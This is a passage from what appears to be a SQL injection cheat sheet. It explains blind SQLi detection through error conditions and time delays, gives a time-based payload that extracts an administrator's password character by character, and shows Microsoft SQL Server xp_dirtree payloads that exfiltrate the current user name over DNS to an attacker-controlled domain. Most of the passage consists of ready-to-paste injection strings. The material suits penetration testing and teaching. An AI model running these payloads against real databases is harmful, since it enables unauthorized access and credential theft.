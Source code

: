 	The goal here is to check errors based on a True query and on a false one. Here is an example:
	 ```sql
	 ' and (select case when (1=2) then 1/0 else 'a' end)='a
	 ``` 
	 => True statement
	
	
	```sql
	' and (select case when (1=1) then 1/0 else 'a' end)='a
	``` 
	=> False statement
	
	
- Time delays

    This one is the favorite of everyone to quickly check for blind SQL. The goal is to insert a sleep function (once or twice to confirm it) and check if there is any latence in the anwser given by the server. If there is one, and if this latence is proportionate to your sleep value, then you know that you've got SQLi. Examples : 
	
	```sql
	';sleep(10)--
	```
	
	```sql
	'; if (1=1) waitfor delay '0:0:5'--
	```
	
	
- Time delays and information retrieval

	Using the techique right above, we can exfiltrate data based on the time the query take to give a result. We will stick with conditional tested char by char. Here is an example : 
	```sql
	'; if (select count(username) from users where username = 'administrator' and substring(password, 1, 1) > 'm') = 1 waitfor delay '0:0:5'--
	```
	
	
- Out-of-band (OAST)

   This type of SQLi is perform against asynchronous system. The goal here is to trigger out-of-band network. We usually use DNS protocol because that's simplier and available on any system. To exfiltrate data we will use conditionals techniques again and more precisely a time delays equivalent. Basicly we will redirect to our controlled domain on True or False condition. For example we can perform those :
   * For Microsoft SQL Server
      		
		```sql
		'; exec master..xp\_dirtree '//MYDOMAIN/a'--
		```
		*basic test*
		
		
		```sql
		declare @q varchar(1024); set @q = 'master..xp\_dirtree '\\\\' + substring(convert(varchar(max), convert(varbinary(max), user\_name()), 1),1,60) + '.MYDOMAIN\\foo'; exec(@q)
		```
		*return data on subdomain param*
		